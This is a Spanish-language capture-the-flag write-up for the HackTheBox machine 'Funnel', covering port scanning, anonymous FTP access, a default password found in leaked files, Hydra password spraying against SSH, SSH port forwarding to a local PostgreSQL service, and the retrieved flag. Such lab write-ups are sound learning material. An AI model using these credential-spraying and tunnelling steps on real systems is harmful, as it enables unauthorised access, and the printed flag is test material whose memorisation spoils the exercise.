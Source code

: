 # Funnel

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 7 de enero de 2025 21:15
IP: 10.129.88.226

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.88.226 -oG allports

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p21,22 -sCV 10.129.88.226 -oN targeted
```

- **Identificación de vulnerabilidades**

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 21/tcp open  ftp     vsftpd 3.0.3

```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```

- Enumeramos FTP (port 21)
    
    ```bash
    # Conectamos con el FTP sin credenciales
    
     ftp anonymous@10.129.88.226
     ftp> ls
    229 Entering Extended Passive Mode (|||58764|)
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
    226 Directory send OK.
    ftp> cd mail_backup
    250 Directory successfully changed.
    ftp> ls
    229 Entering Extended Passive Mode (|||18439|)
    150 Here comes the directory listing.
    -rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
    -rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
    
    # Descargamos todos los ficheros del directorio
    ftp> mget *
    226 Transfer complete.
    713 bytes received in 00:00 (2.67 KiB/s)
    ```
    
    Revisamos los documentos descargados
    
    ```bash
    cat welcome_28112022
    ───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
           │ File: welcome_28112022
    ───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       1   │ Frome: root@funnel.htb
       2   │ To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
       3   │ Subject:Welcome to the team!
    ```
    
    Enumeramos los siguientes usuarios: 
    
    - root
    - optimus
    - albert
    - andreas
    - christine
    - maria
    
    Enumerando el otro archivo vemos :
    
    ![image.png](<imagenes/image 82.png>)
    
    Por lo que tenemos un password potencial: **funnel123#!#**
    

## Explotación

<aside>
💡 Intentamos el acceso con las credenciales

</aside>

### Explotación 1

Creamos dos listas, una con el password y la otra con los usuarios para ver con cual aplica

![image.png](<imagenes/image 83.png>)

![image.png](<imagenes/image 84.png>)

```bash
❯ hydra -L users.txt -P password.txt 10.129.88.226 ssh # 10.129.88.226 ssh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-07 21:33:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://10.129.88.226:22/
[22][ssh] host: 10.129.88.226   login: christine   password: funnel123#!#
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-07 21:33:59
```

Encontramos usuario “Christine” con password “funnel123#!#

### Explotación 2

Accedemos por ssh como usuario “Christine” y password anterior

```bash
❯ ssh christine@10.129.88.226
christine@funnel:~$
```

### Explotación 3

Vemos que en la maquina, hay corriendo el servicio postresql , pero únicamente en el local host

Hacemos local port forwarding

```bash
❯ ssh -L 1111:127.0.0.1:5432 christine@10.129.88.226
```

Una vez establecida conexión por SSH, conectamos desde nuestra maquina (local) a psql

```bash
❯ psql -h 127.0.0.1 -p 1111 -U christine
```

Enumeramos la BD:

```sql

# \l para listar todas las bases de datos

christine-# \l

Listado de base de datos
Nombre   |   Dueño   | Codificación | Proveedor de locale |  Collate   |   Ctype    | Configuración regional | Reglas ICU: |       Privilegios       
-----------+-----------+--------------+---------------------+------------+------------+------------------------+-------------+-------------------------
 christine | christine | UTF8         | libc                | en_US.utf8 | en_US.utf8 |                        |             | 
 postgres  | christine | UTF8         | libc                | en_US.utf8 | en_US.utf8 |                        |             | 
 secrets   | christine | UTF8         | libc                | en_US.utf8 | en_US.utf8 |                        |             | 
 template0 | christine | UTF8         | libc                | en_US.utf8 | en_US.utf8 |                        |             | =c/christine           +
           |           |              |                     |            |            |                        |             | christine=CTc/christine
 template1 | christine | UTF8         | libc                | en_US.utf8 | en_US.utf8 |                        |             | =c/christine           +
           |           |              |                     |            |            |                        |             | christine=CTc/christine
```

Vemos la tabla secrets. 

```sql
# \c para cambiar de base de datos
# \dt para ver el contenido de la base de datos

christine-# \c secrets
psql (17.2 (Debian 17.2-1), servidor 15.1 (Debian 15.1-1.pgdg110+1))
Ahora está conectado a la base de datos «secrets» con el usuario «christine».
secrets-# \dt
        Listado de relaciones
 Esquema | Nombre | Tipo  |   Dueño   
---------+--------+-------+-----------
 public  | flag   | tabla | christine
(1 fila)

# SELECT * FROM <table_name>; Para ver contenido

secrets-# select * from flag;
value               
----------------------------------
 cf277664b1771217d7006acdea006db1
(1 fila)
```

Flag: cf277664b1771217d7006acdea006db1

## Explotación posterior

<aside>
💡 No hay escalada de privilegios

</aside>

### Conclusión

<aside>
💡 Maquina facil y interesante. Me ha servido para aprender conceptos de local port forwardin (ssh)

</aside>